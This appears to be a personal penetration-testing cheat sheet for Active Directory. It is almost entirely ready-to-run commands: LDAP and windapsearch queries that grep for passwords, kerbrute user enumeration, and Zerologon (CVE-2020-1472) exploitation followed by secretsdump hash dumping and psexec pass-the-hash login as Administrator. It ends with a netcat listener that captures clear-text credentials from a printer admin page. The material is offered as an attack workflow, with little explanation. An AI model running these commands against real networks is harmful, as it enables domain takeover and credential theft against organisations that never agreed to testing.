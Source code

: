 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### windapsearch.py

```bash - kali
cd /opt && sudo git clone https://github.com/ropnop/windapsearch
```

```bash - kali
sudo apt install python3-ldap
```

```bash - kali
cd windapsearch && ./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U --full | grep Password
```

```bash - kali
./windapsearch.py -d resolute.domain.local --dc-ip $TARGET -U > users
```

#### ldapsearch
```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "description"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" | grep -i "password"
```

```bash - kali
ldapsearch -x -p 389 -h $TARGET -b "dc=$HOSTNAME,dc=$DOMAIN_NAME" -s sub "*" > ldapsearch.txt
```

![[Pasted image 20220114104148.png]]

0 means "no lock out policy"

Script to verify user's creds:

##### zerologon
```bash - kali
git clone https://github.com/SecuraBV/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472 && pip install -r requirements.txt
```

Next, look at the nmap results below to find the CN value:

```bash - kali
tcp_389_ldap_nmap.txt
```

![[Pasted image 20220105211456.png]]

```bash - kali
python3 zerologon_tester.py $DOMAIN_NAME $TARGET
```

![[Pasted image 20220105211656.png]]

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```
  
Now add the target to the hosts file:

```bash - kali
sudo echo '$TARGET $DOMAIN' | sudo tee -a /etc/hosts
```

```bash - kali
sudo apt install golang
```

```bash - kali
go get github.com/ropnop/kerbrute
```

```bash - kali
cd kerbrute
```

```bash - kali
make linux
```

```bash - kali
cd dist
```

```bash - kali
./kerbrute_linux_amd64 userenum -d $DOMAIN --dc $DOMAIN /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

```bash - kali
git clone https://github.com/dirkjanm/CVE-2020-1472
```

```bash - kali
cd CVE-2020-1472
```

```bash - kali
sudo python3 cve-2020-1472-exploit.py $DOMAIN_CONTROLLER_NAME $TARGET
```

   
```bash - kali
secretsdump.py -hashes :$HASH '$DOMAIN/$DOMAIN_CONTROLLER_NAME@$TARGET'
```

Using empty LM hash:
```bash - kali
psexec.py Administrator@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


#### Printer Admin Page

```bash - kali
sudo rlwrap -cAr nc -lvnp 389
```

Navigate to settings page:

![[Pasted image 20220218175015.png]]

Enter your Kali IP in the Server Address field.

Click update, get clear text creds in listener.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
